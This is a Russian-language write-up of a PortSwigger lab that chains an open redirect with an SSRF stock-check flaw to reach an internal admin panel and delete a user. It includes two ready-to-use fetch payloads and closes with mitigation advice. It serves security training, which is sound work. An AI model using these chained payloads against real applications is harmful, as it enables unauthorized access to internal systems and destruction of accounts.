


# PortSwigger Lab: SSRF with filter bypass via open redirection vulnerability

## Описание лаборатории
- **Платформа:** PortSwigger Web Security Academy
- **Сложность:** Practitioner
- **Цель:** Изменить URL проверки наличия товара, чтобы получить доступ к интерфейсу администратора по адресу `http://192.168.0.12:8080/admin`, и удалить пользователя `carlos`. Функционал проверки наличия товара был ограничен доступом только к локальному приложению, поэтому сначала необходимо найти уязвимость открытого перенаправления (open redirect).

## Анализ уязвимости
Функционал проверки наличия товара (`/product/stock`) уязвим к SSRF, но имеет фильтр, который ограничивает запросы доменом самого локального приложения.

Однако приложение также содержит уязвимость открытого перенаправления в функционале «Следующий товар» (`/product/nextProduct?path=`). Параметр `path` позволяет злоумышленнику перенаправить пользователя на произвольный URL.

Объединив эти две уязвимости, мы можем обойти фильтр SSRF. Фильтр видит запрос к относительному пути на доверенном домене и пропускает его. Сервер обрабатывает запрос, срабатывает открытое перенаправление, и он переходит во внутреннюю сеть.

## Шаги эксплуатации
1. Предпринята попытка использовать стандартный пейлоад SSRF (`stockApi=http://192.168.0.12:8080/admin`), но сервер заблокировал его с сообщением: `"Invalid external stock check url 'Invalid URL'"`.
2. Обнаружена уязвимость открытого перенаправления в эндпоинте `/product/nextProduct`, который принимает параметр `path`.
3. Сформирован пейлоад, использующий относительный путь для `stockApi` для обхода фильтра, с внедрением внутреннего IP в параметр `path` для перенаправления. Символ `&` был URL-кодирован как `%26`, чтобы предотвратить разрыв параметра:
   ```javascript
   fetch('/product/stock', {
     method: 'POST',
     headers: {'Content-Type': 'application/x-www-form-urlencoded'},
     body: 'stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin'
   })
   .then(r => r.text())
   .then(t => console.log(t));
   ```
4. Сервер последовал за перенаправлением и вернул HTML-код панели администратора.
5. Отправлен финальный пейлоад для удаления пользователя `carlos`:
   ```javascript
   fetch('/product/stock', {
     method: 'POST',
     headers: {'Content-Type': 'application/x-www-form-urlencoded'},
     body: 'stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos'
   })
   .then(r => r.text())
   .then(t => console.log(t));
   ```
6. Пользователь был удален, и лаборатория решена.

## Доказательства

### Доступ к панели администратора через открытое перенаправление (Обход)


### Лаборатория решена


## Меры защиты (Mitigation)
Для предотвращения этой уязвимости приложение должно устранить обе проблемы.
1. **Исправление открытого перенаправления:** Проверять параметр `path` и разрешать перенаправления только на внутренние, доверенные страницы. Не разрешать произвольные URL.
2. **Надежная защита от SSRF:** Использовать белый список разрешенных доменов для функции проверки наличия товара. Не полагаться только на проверку того, что URL начинается с локального домена, так как открытые перенаправления могут обойти это.